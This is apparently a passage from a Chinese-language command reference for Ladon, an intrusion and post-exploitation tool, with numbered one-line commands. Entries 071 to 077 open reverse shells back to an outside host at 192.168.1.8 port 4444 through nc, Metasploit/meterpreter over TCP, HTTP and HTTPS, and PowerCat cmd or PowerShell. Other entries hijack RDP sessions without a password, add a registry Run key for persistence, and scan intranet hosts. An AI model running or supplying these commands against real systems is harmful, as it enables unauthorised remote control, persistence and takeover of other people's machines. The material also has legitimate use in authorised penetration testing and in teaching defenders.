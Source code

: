 ##### 067 获取内网站点HTML源码 	
Ladon gethtml http://192.168.1.1

##### 068 检测后门
Ladon CheckDoor
Ladon AutoRun

##### 069 获取本机内网IP与外网IP 	
Ladon GetIP

##### 070 一键迷你WEB服务器 	
Ladon WebSer 80
Ladon web 80

### 反弹Shell

##### 071 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc

##### 072 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell

##### 073 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter

##### 074 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444

##### 075 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444

##### 076 反弹TCP CMD & PowerShell Shell
Ladon PowerCat -r 192.168.1.8 4444 cmd
Ladon PowerCat -r 192.168.1.8 4444 psh

##### 077 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat -r 192.168.1.110 4444 cmd -u
Ladon PowerCat -r 192.168.1.8 4444 psh -u

##### 078 RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3
Ladon RDPHijack 3 console

##### 079 OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan
Ladon 192.168.1.8/24 OxidScan

#### 080 查看用户最近访问文件
Ladon Recent

#### 081 添加注册表Run启动项
Ladon RegAuto Test c:\123.exe
